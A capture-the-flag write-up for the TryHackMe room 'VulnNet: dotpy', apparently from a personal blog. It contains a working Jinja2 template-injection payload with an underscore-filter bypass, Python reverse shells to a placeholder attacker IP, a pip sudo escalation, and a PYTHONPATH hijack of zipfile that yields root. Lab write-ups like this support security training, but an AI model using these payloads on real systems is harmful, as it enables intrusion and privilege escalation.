 ```yaml
---
date: "2021-04-11T00:00:00Z"
redirect_from: /writeups/2021/THM/vulnnetDotpy.html
tags: [tryhackme,web,python,jinja2,pathhijacking]
title: '[Writeup] TryHackMe | VulnNet: dotpy'
---
```


## Room Information

Title: VulnNet: dotpy<br>
Description: VulnNet Entertainment is back with their brand new website... and stronger?<br>
This room is availiable at [TryHackMe VulnNet:Dotpy](https://tryhackme.com/room/vulnnetdotpy) or go to [TryHackMe](https://tryhackme.com/).

## Ports
```
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

## Reconnaissance

There is a wierd endpoint in the webserver that stops the http server: `/shutdown`
The 404 page will return the folder maybe some SSTI/XSS? We know that the server runs on python it may be jinja2, lets try sending `{{3 * 3}}`. if its jinja2 it should echo 9 back to the page. and ,that worked this will be our point of entry. 

## SSTI / RCE

Now that we have *Server Side Template Injection (SSTI)*, we can try running code on the remote box!
when we try running anything with an `_.[]` it will respond with 
```
INVALID CHARACTERS DETECTED
Your request has been blocked.
``` 
I think there are some filters in place, this may make it hard for us.
First we are gonna try to get a urlparameter
The following snippet will read the get parameter `c`
{% raw %}
```
{{request|attr('args')|attr('get')('c')}}?c= 
```
{% endraw %}

now that we can read c. 
lets try running code on the machine.
{% raw %}
```py
{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=
```
{% endraw %}

All of this is to get the `_` from the get parameter `us` and use it in the code, bcause underscores are blocked. 
this is the code when you dont have the underscore blocker.
{% raw %}
```py
{{request|attr('application')|attr( "__globals__" ) |attr( "__getitem__" )( "__builtins__") |attr( "__getitem__")("__import__")('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?c=
```
{% endraw %}
Way easier to read. :D

## Reverse Shell

Now that we can run code on the machine lets try running a reverseshell, we are going to use the following command. Lets use it inside the RCE exploit
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

{% raw %}
```bash
curl -c "SESSION=session-cookie" http://$IP:8080/{{request|attr('application')|attr( request|attr('args')|attr('get')('us')*2 + "globals" + request|attr('args')|attr('get')('us')*2 ) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2 )( request|attr('args')|attr('get')('us')*2 + 'builtins' + request|attr('args')|attr('get')('us')*2) |attr( request|attr('args')|attr('get')('us')*2 + 'getitem' + request|attr('args')|attr('get')('us')*2)(request|attr('args')|attr('get')('us')*2 + 'import' + request|attr('args')|attr('get')('us')*2)('os')|attr('popen')(request|attr('args')|attr('get')('c'))|attr('read')()}}?us=_&c=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$YOUR_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
{% endraw %}

## Changing user
Lets do some enumeration, in the following output we see we can run `/usr/bin/pip3 install` as the user `system-adm`
<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">sudo -l
# User web may run the following commands on vulnnet-dotpy:
#    (system-adm) NOPASSWD: /usr/bin/pip3 install *</code></pre>

Lets check [GTFOBins](https://gtfobins.github.io/) for an exploit, and there is [PIP Sudo GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo).


<pre class="command-line" data-prompt="web@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/pip_setup.py; mv pip_setup.py setup.py
sudo -u system-adm /usr/bin/pip3 install . </code></pre>

And we are now **system-adm** in our new shell. Lets get the user flag.
<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">cat ~/user.txt
# THM{********************************}</code></pre>

## Privilege Escalation

lets do some enumeration on the new user.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" data-output="2-3-4-5-6">
<code class="language-bash">sudo -l
# Matching Defaults entries for system-adm on vulnnet-dotpy:
#     env_reset, mail_badpass,
#     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
# 
# User system-adm may run the following commands on vulnnet-dotpy:
#     (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py</code></pre>


we see that we can set an environment variable while executing python3. We can possibly do some **PYTHONPATH hijacking**. 
there is a library imported `zipfile`, lets overwrite that! 
lets make a file privesc.py on our machine, we can download that by running a small server on our machine and using wget. 

This code will open a socket connection to our machine on port 7777.
<pre data-src="privsec.py" 
  data-download-link 
  data-download-link-label="get_app" 
><code class="language-py">import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$YOUR_IP",7777));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])</code>
</pre>


Because `import zipfile` is run, it will execute the code inside of `zipfile.py` so we are going to rename the file on the remote and then add it to the **$PYTHONPATH** environment variable.

<pre class="command-line" data-prompt="system-adm@vulnnet-dotpy $" >
<code class="language-bash">wget $YOUR_IP:8080/privesc.py ; mv privesc.py zipfile.py
sudo PYTHONPATH=/home/system-adm /usr/bin/python3 /opt/backup.py</code></pre>

and we have a new shell. lets check our user!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" >
<code class="language-bash">whoami; id
#root
#uid=0(root) gid=0(root) groups=0(root)</code></pre>

lets cat the root flag!
<pre class="command-line" data-prompt="root@vulnnet-dotpy $" data-output="2">
<code class="language-bash">cat ~/root.txt
THM{********************************}</code></pre>

